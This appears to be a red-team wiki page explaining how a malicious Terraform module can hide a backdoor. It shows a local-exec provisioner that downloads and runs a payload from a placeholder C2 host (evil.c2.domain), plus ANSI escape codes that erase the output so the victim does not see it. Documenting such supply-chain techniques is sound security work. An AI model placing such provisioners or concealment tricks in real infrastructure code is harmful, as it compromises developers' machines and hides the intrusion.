


# Terraform ANSI Escape

Original Research: [Joern Schneeweisz](https://about.gitlab.com/blog/2022/06/01/terraform-as-part-of-software-supply-chain-part1-modules-and-providers/)

When performing a Terraform [apply](https://www.terraform.io/cli/commands/apply) from a local workstation, Terraform will output a list of resources it has created, updated, or deleted. Because this is taking place in a terminal, we can potentially use [ANSI escape codes](https://en.wikipedia.org/wiki/ANSI_escape_code) to alter this output. This would allow us to hide or obfuscate malicious activity, such as in a malicious Terraform module.

Take for example the following Terraform code.

``` tf title="main.tf"
resource "null_resource" "hypothetical_ec2_instance" {
}

resource "null_resource" "blah" {
  provisioner "local-exec" {
    command = "wget -q http://evil.c2.domain/payload && chmod +x payload && ./payload"
  }
}
```

In this example, we are using a [local-exec](https://www.terraform.io/language/resources/provisioners/local-exec) provisioner to run shell commands. If we were to backdoor a module or git repository storing Terraform configurations, and a developer were to download them and run them on their workstation, this would run the shell commands on their workstation.

!!! Tip
    As an alternative to local-exec, you can also use [external_provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs).

The problem is that this output would get displayed to the user, for example:



To solve this, we can use ANSI escape codes to modify this output. It is worth noting that the specific sequences we will need to use will depend on the terminal type the victim is using. The following example is using [gnome-terminal](https://gitlab.gnome.org/GNOME/gnome-terminal) on Ubuntu.

```
\033[2K # Clears the current line
\033[A  # Moves the cursor to the previous line
```

So, we can modify our payload to the following to hide the malicious activity.

``` tf title="main.tf"
resource "null_resource" "blah" {
  provisioner "local-exec" {
    command = "wget -q http://evil.c2.domain/payload && chmod +x payload && ./payload; echo -e '\\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A'"
  }
}
```

And this is the output:


